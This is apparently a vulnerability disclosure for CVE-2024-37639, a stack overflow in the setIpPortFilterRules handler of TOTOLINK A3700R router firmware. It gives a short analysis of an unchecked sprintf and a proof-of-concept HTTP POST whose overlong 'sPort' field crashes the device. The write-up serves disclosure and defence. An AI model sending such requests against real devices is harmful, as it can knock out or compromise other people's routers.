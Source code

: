 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setIpPortFilterRules stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37639

### Analysis

The parameters `v8` and `v9` are copied to buffer `v16` through the sprintf function

![image-20240613121737473](./image-20240613121737473.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 173

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{

"topicurl":"setting/setIpPortFilterRules",

"addEffect":"1",

"sPort":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

![image-20240613122142886](./image-20240613122142886.png)

![image-20240613122208834](./image-20240613122208834.png)
